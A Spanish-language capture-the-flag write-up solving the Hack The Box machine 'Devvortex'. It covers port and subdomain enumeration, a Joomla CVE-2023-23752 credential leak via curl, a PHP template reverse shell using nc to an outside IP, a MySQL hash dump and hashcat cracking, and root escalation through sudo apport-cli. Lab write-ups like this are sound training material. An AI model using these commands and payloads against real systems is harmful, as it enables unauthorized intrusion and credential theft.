Fase de reconocimiento
Primero procedo a hacer un análisis de puertos con nmap hacia el servidor:
sudo nmap -sS -p- --open --min-rate 5000 10.129.197.95 -Pn -oA Scaning- -sS: Especifico el uso de un escaneo SYN (half-open)
- -p-: Indico que quiero escanear todo el rango de puertos
- --open: Esto me filtra solo por los puertos abiertos
- --min-rate 5000: Esto hace que el escaneo sea más rápido
- -Pn: Esto hace que no haga ping por lo que acelera el escaneo
- -oA Scaning: Guarda el resultado del escaneo en un archivo llamado Scaning, y de esta forma se puede revisar el resultado posteriormente

El resultado del escaneo muestra que se encuentran abiertos los puertos 22 y el 80, por lo que procedo a hacer un escaneo más profundo en estos puertos para ver si hay versiones vulnerables:
nmap -sCV -p 22,80 10.129.197.95 -oN Versions- -sCV: Especifico que quiero hacer un escaneo de scripts básicos de Nmap (C) y de versiones (V)
- -p 22,80: Indico que quiero escanear solo los puertos 22 y 80
- -oN Versions: Guarda el resultado del escaneo en un archivo llamado Versions, y de esta forma se puede revisar el resultado posteriormente

El resultado del escaneo muestra que el puerto 22 tiene un servicio OpenSSH 8.2pp1 y el puerto 80 tiene un nginx 1.18.0.
Si vemos con atención el resultado, podemos ver que hay un error "Did not follow redirect to http://devvortex.htb". Esto ocurre porque se está aplicando un virtual hosting en el servidor, por lo que para poder acceder al sitio web debemos agregar el dominio a nuestro archivo hosts.
sudo nano /etc/hosts
Una vez guardamos los cambios, podemos acceder al sitio web mediante el navegador.

Revisando el código fuente del sitio web y usando whatweb no se ha encontrado información de mucho valor.
Por eso luego he decidido hacer un ataque de fuerza bruta a directorios, pero tampoco he encontrado nada de interés.
gobuster dir -u http://devvortex.htb -w /usr/share/wordlists/dirb/common.txt -t 50Continuando con el escaneo, he dicidido hacer otro ataque de fuerza bruta pero esta vez a subdirectorios y si he encontrado información más útil.
wfuzz -c --hc=404,302 -w /usr/share/SecLists/Discovery/DNS/subdomains-topmillion-11000.txt -H "Host: devvortex.htb" http://devvortex.htb
El resultado del ataque de fuerza bruta a subdirectorios muestra que hay un subdirectorio llamado dev
, y para acceder él debemos agregarlo a nuestro archivo hosts.
Una vez agregamos el subdirectorio a nuestro archivo hosts, podemos acceder a él mediante el navegador, pero nuevamente, no se ha encontrado información de mucho valor.
Por esta razón, he decidido realizar un ataque de fuerza bruta a los archivos dentro del subdirectorio.
gobuster dir -u http://dev.devvortex.htb -w /usr/share/wordlists/dirb/common.txt -t 50
En esta captura lo que más me llama la atención son los directorios /administrator y /robots.txt.
Igualmente si entramos al robots.txt no encontramos algún otro directorio de interés.

Luego he decidido explorar el directorio /administrator, el cual efectivamente es un panel de administración de Joomla
Lo siguiente que podría buscar puede ser la versión de Joomla con la que estamos tratando, pero no se ha mostrado en ninguna parte, por lo que he bucado en internet información de cómo enumerar Joomla
Despues de buscar he enontrado este artículo el cual me dice que puedo conseguir la versión revisando el manifest en esta ruta: /administrator/manifests/files/joomla.xml

Una vez identificada la versión, puedo buscar vulnerabilidades conocidas. Parece indicar que esta versión está afectada por el CVE-2023-23752la cual me permmite exfiltrar datos sensibles.
Explotación
Según este artículo y este exploit de exploit.db basta con hacer un curl a la ruta para extraer los datos de la base de datos y conseguir credenciales
curl -s -k "http://dev.devvortex.htb//api/index.php/v1/config/application?public=true" | jq '.'
Una vez tenemos las credenciales, volvemos al panel de administración y colocamos las credenciales obtenidas para obtener acceso al portal
Una vez dentro, debemos de enncontrar el template que se está utilizando y crear un nuevo archivo o modificar un archivo existente para colocar una reverse shell en php
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 9443 >/tmp/f"); ?>
Una vez la shell está lista y el archivo guardado podemos colocar la escucha con netcat y luego hacer un curl o acceder a la ruta para activar la shell
nc -lvnp 4444

Una vez dentro, procedo a hacer el proceso de sanitización para operar de una manera más cómoda: Sanitización de Terminal
Cuando ya está lista la terminal, podemos empezar a analizar la VM, y denro podemos notar que somos www-data, que hay un usuario llamado logan y que solo logan puede leer el archivo user.txt
Cuando estamos tratando con máquinas que contienen un Joomla o WordPress, ellas tienen el servicio de SQL, esto se puede confirmar de la siguiente forma:
ss -tlnp
Como podemos observar el puerto 3306 está escuchando, lo que indica la presencia de un servicio MySQL
Ahora lo que podemos intentar es una reutilización de credenciales para ingresar a la base de datos
mysql -u logan -p
Una vez dentro podemos listar las bases de datos:
show databases;
Una vez visualizada la base que nos interesa la seleccionamos y listamos las tablas:
use joomlaa;show tables;
Una vez vistas las tablas, la que realmente nos interesa es sd4fg_users, así procedemos a seleccionarla para visualizar el contenido:
select * from sd4fg_users;
Pero como podemos observar, los datos están un poco desordenados y son difíciles de interpretar. Para esto le vamos a indicar solo los valores que nos interesan, los cuales son username y password:
select username, password from sd4fg_users;
Ahora si podemos ver de manera más clara cuales son los hashes de lewis y logan, pero el que nos interesa es el de logan, asi que que lo vamos a copiar y mover a un archivo llamado hash en nuestro entorno local
También podemos hacer uso de la herramienta hashid para saber cual es el tipo de hash estamos tratando

Como podemos observar con esto ya podemos hacer uso de la herramienta hashcat para intentar romper el hash, ya que ya sabemos con qué tipo de hash estamos tratando
Al leer la documentación de hashcat, podemos ver que el modo correcto para bcrypt es el modo 3200
hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
Al tener las credenciales de logan, podemos usarlas para acceder al sistema ya sea cambiando el usuario con su o utilizando SSH
Escalada de privilegios
Una vez dentro como logan, procedo con la enumeración de permisos para entender qué puede hacer logan dentro del equipo
Al hacer uso de sudo -l puedo ver qué puedo hace uso de /usr/bin/apport-cli como usuario root

Una búsqueda rápida en google nos dice que apport-cli es un programa que recolecta información sobre fallos en el sistema para depuración
También podemos ver que tiene una vulnerabilidad la cual permite la escalada de privilegios en el sistema ejecutando comandos en el apartado de visualización del reporte
Ahora sabiendo esto, vemos que tenemos que ingresar un PID y para eso vamos a usar ps aux

Una vez ya tenemos el PID, podemos usarlo para interactuar con el programa y aprovechar la vulnerabilidad
sudo /usr/bin/apport-cli -f -P 2167
Cuando lleguemos al apartado de visualización del reporte, podemos ejecutar comandos como el usuario root
El comando que ejecutamos será: !/bin/bash
Y al ejecutar enter obtendremos una shell como root

Con esto, se haa completado el writeup de la máquina Devvortex de Hack The Box, demostrando cómo identificar y explotar la vulnerabilidad en Joomla para obtener acceso a datos sensibles, y luego escalar privilegios aprovechadnome del comando sudo para ejeccutar comandos como root en un programa de generación de reportes.
C:\También pueden visitar el video explicativo de la máquina en mi canal de YouTube: Resolución de la Máquina Devvortex | HTB